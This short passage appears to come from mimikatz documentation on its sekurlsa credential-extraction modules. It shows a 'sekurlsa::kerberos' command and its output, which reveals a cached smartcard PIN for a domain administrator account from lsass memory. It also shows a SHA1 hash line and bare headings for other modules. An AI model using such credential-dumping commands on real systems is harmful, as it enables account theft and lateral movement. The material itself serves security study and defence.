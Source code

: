 ```
         * SHA1     : 90bbad2741ee9c533eb8eb37f8fb4172b8896ffa
```

## wdigest
## kerberos

When using smartcard logon on the domain, `lsass` caches PIN code of the smartcard
```
mimikatz # sekurlsa::kerberos
[...]
        kerberos :
         * Username : Administrateur
         * Domain   : CHOCOLATE.LOCAL
         * Password : (null)
         * PIN code : 1234
````
## tspkg
## livessp
## ssp
## credman